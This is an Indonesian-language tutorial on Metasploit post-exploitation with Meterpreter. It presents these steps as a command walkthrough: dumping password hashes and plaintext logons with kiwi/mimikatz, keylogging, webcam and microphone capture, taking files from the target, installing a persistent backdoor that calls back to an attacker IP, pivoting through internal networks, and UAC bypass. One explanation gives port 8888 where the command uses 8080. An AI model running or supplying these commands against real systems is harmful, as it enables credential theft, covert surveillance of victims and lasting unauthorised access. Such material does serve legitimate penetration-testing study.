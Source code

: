 # Post-Exploitation di Metasploit

## A. Apa Itu Post-Exploitation?

[Post-Exploitation](https://en.wikipedia.org/wiki/After_Exploitation) adalah tahap lanjutan setelah berhasil mendapatkan akses ke sistem target. Di Metasploit, khususnya dengan Meterpreter session, kamu bisa melakukan berbagai aktivitas lanjutan untuk `mengumpulkan informasi`, `memperluas akses`, hingga `mengambil alih sistem` secara penuh.

## B. Konsep Dasar Meterpreter

[Meterpreter](https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/) adalah payload berbasis memory injection yang powerful, interaktif, dan tidak menulis file ke disk (stealthy). Setelah exploit berhasil, Meterpreter menyediakan antarmuka CLI untuk post-exploitation.

## C. Perintah Dasar Meterpreter

| Perintah	| Fungsi |
|:--:|:--:|
| `sysinfo`	| Melihat informasi sistem target |
| `getuid` | Menampilkan User ID (UID) |
| `ps` | Menampilkan proses yang sedang berjalan |
| `shell`	| Membuka command shell dari mesin target |
| `getprivs` | Menampilkan privilege yang dimiliki |
| `getsystem`	| Mencoba escalate privilege jadi SYSTEM |
| `screenshot` | Mengambil tangkapan layar target |

## D. Dump Password Hash

Langkah-langkah:

### 1. Jalankan:

```
meterpreter > load kiwi
```

### 2. Dump Hash SAM:

```
meterpreter > hashdump
```

### 3. Atau Menggunakan Mimikatz:

```
meterpreter > kiwi_cmd sekurlsa::logonpasswords
```

## E. Keylogger

### 1. Mulai keylogger:

```
meterpreter > keyscan_start
```

### 2. Lihast Hasil:

```
meterpreter > keyscan_dump
```

### 3. Hentikan:

```
meterpreter > keyscan_stop
```

## F. Webcam (Ambil Gambar)

### 1. Cek webcam:

```
meterpreter > webcam_list
```

### 2. Ambil gambar:

```
meterpreter > webcam_snap
```

### 3. Atau rekam:

```
meterpreter > record_mic
```

## F. File & Data Collection

| Perintah	| Fungsi |
|:--:|:--:|
| `ls`, `cd`, `pwd` | Navigasi file |
| `download <file>`	| Unduh file dari target |
| `upload <file>`	| Upload file ke target |
| `search -f *.docx`	| Cari file tertentu |
| `cat <file>`	| Lihat isi file|

## G. Persistence (Backdoor)

Contoh membuat persistence di Windows:

```
meterpreter > run persistence -U -i 5 -p 4444 -r 192.168.1.10
```

**Keterangan:**

- `-i` : Interval `5 detik`.
- `-p` : Port listener: `4444`.
- `-r` : IP attacker: `192.168.1.10`.

## Pivoting dan Port Forwarding

Jika target berada di jaringan internal, kamu bisa pivot ke sistem lain:

```
meterpreter > run autoroute -s 192.168.10.0/24
```

**Keterangan:**

- `-s` : (subnet) jaringan internal target.

Gunakan port forwarding untuk akses service internal:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

**Keterangan:**

- `-l` : Port listener: `8888`.
- `-p` : Port tujuan di mesin target: `80`.
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`. 

## I. Privilege Escalation

Coba naikkan hak akses jadi SYSTEM:

```
meterpreter > getsystem
```

Atau gunakan exploit lokal seperti:

```
msf6 > use exploit/windows/local/bypassuac
```

## J. Kesimpulan

Post-exploitation adalah fase paling menentukan dalam operasi penetrasi. Dengan Meterpreter, kamu bisa:

- Mengumpulkan informasi sensitif.
- Menanamkan backdoor.
- Mengendalikan perangkat target secara penuh.

> Pastikan semua aksi kamu terukur, tercatat, dan bertanggung jawab.
